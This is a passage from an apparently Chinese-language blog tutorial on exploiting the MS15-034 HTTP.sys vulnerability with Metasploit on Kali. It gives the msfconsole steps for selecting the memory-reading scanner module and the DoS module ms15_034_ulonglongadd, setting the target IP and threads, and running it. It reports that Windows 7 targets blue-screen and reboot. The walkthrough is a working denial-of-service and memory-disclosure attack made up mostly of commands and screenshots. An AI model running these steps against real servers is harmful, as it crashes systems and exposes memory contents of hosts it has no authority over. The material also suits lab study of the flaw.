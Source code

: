 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBm20LRWr8CjTRKnFd2WxqhIpfXPfzIbpD6fm8kpGNE5xic0Py6bMGlicw/640?wx_fmt=png&from=appmsg "")  
  
发现该漏洞有可利用的模块，  
### 选择payload模块  
  
选择payload模块，带有sanner的是验证模块，带有dos的是攻击模块：，  在 kali 系统，借助 metasploit 平台利用 ms15-034 漏洞读取服务器内存数据，这是获取内存信息的工具use 1  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBxfBaXNLxGwula1DRibxjjEOW4zeR55J8VWZqXySdAPIicvVzNCmibGDicg/640?wx_fmt=png&from=appmsg "")  
  
#### 设置目标IP  
  
看一下这个模块需要配置什么  
```
show options

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWB3gj0nLfu0bHdLoGwVh4ziaDYDF9xib0eiaWzvvwM5bhXFB3I4jjfkArbQ/640?wx_fmt=png&from=appmsg "")  
发现我们只需要设置目标ip就可以啦  
```
set rhosts 目标ip

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBlYfmcoJyibgvbnBUhc7FhcKagJfCSpt8N8S3eT07EeATWOl9f4kkbHA/640?wx_fmt=png&from=appmsg "")  
#### 开始读取内存信息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBiaYKlE31yZV7RpIfvicxQJxC56kYJ6iaOKsoxOMpibAtynbriaDfx2ggS2Q/640?wx_fmt=png&from=appmsg "")  
但它在大多数环境下并不能真正实现“读取任意内存”的效果  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBcCwFYRx7oJRc43bhncny73liaqDjZJLk7yR9pociaG57w5tG1d18lF0w/640?wx_fmt=png&from=appmsg "")  
  
### dos攻击模块  
  
利用 ms15-034 漏洞进行 ddos 攻击,同样借助 metasploit 平台  
```
msf6>use auxiliary/dos/http/ms15_034_ulonglongadd
Msf6 auxiliary > set rhosts 目标ip
Msf6 auxiliary >   set  threads 10    (把攻击线程数设置成 10 个)
Threads => 10
Msf6 auxiliary > run

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBpUQzbWZo2ySowHKoUQA7PffSVocs0aNjsQ7nu4EAOGb5ujTcbrwAVw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBTw58YMibP8ggoIcZRlTyLG3hFwFQb7ticCcGm3xN8bHqWkic6SWTaMpnw/640?wx_fmt=png&from=appmsg "")  
  
攻击开始后，win7 或 win2008 瞬间蓝屏然后自动重启(win7 肯定蓝屏重启，win2008 有时不成功，不蓝屏)，截图如下，win2008已经自动重启了：  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBMBD5s8ASDzBZjeo5QmxRb03JIIKD0fv5As2rknsGKbQ7PZy6SySibnQ/640?wx_fmt=png&from=appmsg "")  
  